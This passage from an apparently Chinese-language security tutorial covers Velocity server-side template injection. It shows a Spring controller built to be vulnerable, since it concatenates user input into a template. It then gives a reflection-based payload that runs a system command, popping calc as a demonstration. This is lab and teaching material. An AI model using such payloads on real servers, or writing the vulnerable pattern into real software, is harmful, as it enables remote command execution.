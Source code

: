 第二：编写 VelocityController

```plain
package com.example.javasecssti;

import org.apache.velocity.VelocityContext;
import org.apache.velocity.app.Velocity;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;

import java.io.StringWriter;

@Controller
public class VelocityController {
    @RequestMapping("/ssti/velocity")
    @ResponseBody
    public String velocity1(@RequestParam(defaultValue="nth347") String username) {
        String templateString = "Hello, " + username + " | Full name: $name, phone: $phone, email: $email";

        Velocity.init();
        VelocityContext ctx = new VelocityContext();
        ctx.put("name", "Nguyen Nguyen Nguyen");
        ctx.put("phone", "012345678");
        ctx.put("email", "nguyen@vietnam.com");

        StringWriter out = new StringWriter();
        // 将模板字符串和上下文对象传递给Velocity引擎进行解析和渲染
        Velocity.evaluate(ctx, out, "test", templateString);

        return out.toString();
    }

}
```

第三：启动测试  
poc

```plain
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("cmd /C calc")
```

[![](assets/1701606782-48d331a59570aac1cd6381d552afab86.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103172926-7b04d2fe-7a2b-1.png)  
命令执行成功，弹出计算器
